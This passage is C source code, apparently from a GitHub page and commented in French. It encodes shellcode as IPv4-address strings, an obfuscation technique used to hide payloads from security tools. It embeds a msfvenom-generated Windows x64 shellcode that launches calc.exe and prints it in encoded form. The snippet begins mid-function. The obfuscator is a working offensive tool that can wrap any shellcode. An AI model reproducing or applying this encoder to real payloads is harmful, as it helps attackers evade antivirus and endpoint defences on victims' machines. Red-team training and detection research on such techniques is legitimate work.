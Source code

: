 ```c

    int addressCount = 0;
    char* ipAddress = NULL;

    for (SIZE_T i = 0; i < ShellcodeSize; i += 4) {
        // Generation d'une IPv4 a partir de 4 bytres
        ipAddress = GenerationIpv4(pShellcode[i], pShellcode[i + 1], pShellcode[i + 2], pShellcode[i + 3]);
        
        printf("\"%s\"", ipAddress);
        addressCount++;

        // Ajout potentiel d'une virgule
        if (i + 4 < ShellcodeSize) {
            printf(", ");
        }

        // Ajout d'une newline après 8 adresses
        if (addressCount % 8 == 0 && i + 4 < ShellcodeSize) {
            printf("\n\t");
        }
    }

    printf("\n};\n\n");
    return TRUE;
}


int main()
{
    //Un simple payload msfvenom Windows/calc.exe
    unsigned char buf[] =
        "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
        "\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
        "\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
        "\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
        "\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
        "\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
        "\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
        "\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
        "\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
        "\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
        "\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
        "\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
        "\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
        "\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
        "\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
        "\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
        "\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
        "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
        "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
        "\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";

    SIZE_T shellcodeSize = sizeof(buf) - 1;

    ShellcodeToIPV4(buf, shellcodeSize);

    return 0;
    
}
```
